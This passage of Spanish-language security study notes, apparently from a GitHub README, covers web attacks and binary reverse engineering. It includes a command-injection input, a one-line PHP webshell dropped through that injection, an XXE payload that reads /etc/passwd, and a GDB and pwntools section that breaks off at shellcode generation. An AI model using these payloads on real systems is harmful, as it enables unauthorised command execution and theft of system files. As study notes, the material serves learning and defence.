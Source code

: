 - **RCE (Ejecución de comandos remotos):** En principio, si se esta poniendo el código directamente: `shell_exec('ping 8.8.8.8');` siendo la ip lo que el usuario mete, si en vez de eso ponemos `;ls` pues aunque `ping` de error ejecuta el comando `ls`. Una vez detectada la vulnerabilidad podriamos ejecutar una WebShell: `;echo'<?php echo shell_exec(s_GET["cmd"]); ?>' > shell1.php`. Si nos vamos a `shell1.php`, con el parámetro de la url `cmd` podremos ejecutar los comandos que nos dé la gana
- **XXE (XML External Entity):** Abusa las características de XML para interactuar con el backend de una aplicación y leer por ejemplo ficheros del sistema. Un payload podría ser:
```xml
<?xml version="1.0"?>
<!DOCTYPE root [<!ENTITY read SYSTEM 'file:///etc/passwd'>]>
<root>&read;</root>
```
- **Metodologia OWASP para testear seguridad en la web:** OWASP broken web application (Para practicar a atacar paginas y esas cosas) 

# Ingeniería inversa y exploit de binarios
En esta sección quiero recoger 

- Decompiladores: Revierte binarios a lenguajes de alto nivel como C
- Desambladores: Revierte binarios a lenguaje ensamblador
- Debuggers: Permiten ver y cambiar el estado de un programa en ejecución

## Herramientas y comandos
- **GDB:** Uso básico ([cheatsheet](https://darkdust.net/files/GDB%20Cheat%20Sheet.pdf)):
```console
$ gdb binary
(gdb)> set disassembly-flavor intel # Para que el formato de lo siguiente sea mas bonito
(gdb)> disassemble main # Saca las instrucciones realizadas en la función main
(gdb)> break *main # Coloca un breakpoint al principio de main
(gdb)> run [arguments if the program need them]
(gdb)> info registers # Estamos parados en el breakpoint de antes y podemos mirar que hay en los registros en ese punto
(gdb)> ni # Siguiente instrucción (Si despues de este comando pulsamos intro podemos ir pasando de instrucción sin tener que escribirlo again)
(gdb)> continue # Continua la ejecución hasta el proximo breakpoint o el final del mismo
(gdb)> $eax=0 # Da al registro eax el valor 0 (Esto se puede hacer con cualquier registro)
(gdb)> x/s mem_dir # Imprime lo que hay en una determinada dirección de memoria
(gdb)> p variable # Imprime el valor de una variable (El binario debe estar compilado en modo debug)
```
- [**peda**](https://github.com/longld/peda)**:** Asistente hecho en Python para el desarrollo de exploits en GDB
- **Ghidra:** Herramienta de ingeniería inversa gratuita
- **`objdump`:** 
```console
$ objdump -d binary # Desensambla el binario e imprime las instrucciones
$ objdump -x binary # Información sobre el binario
```
- **`strace binary`:** Muestra las llamadas al sistema que se realizan en un binario
- **`ltrace binary`:** Muestra las llamadas a funciones de librerias que se realizan en un binario
- **`dmesg`:** Útil para comprobar errores de desbordamiento
- [**pwntools**](https://github.com/Gallopsled/pwntools)**:** Es un framework para CTF y también una librería para desarrollar exploits
    - **`pwn checksec`:** Muy últil para comprobar que tipo de seguridad tiene un binario activada
    - Para generar shellcode que ejecute el comando `sh` se puede hacer esto:
    ```python
    from pwn import *
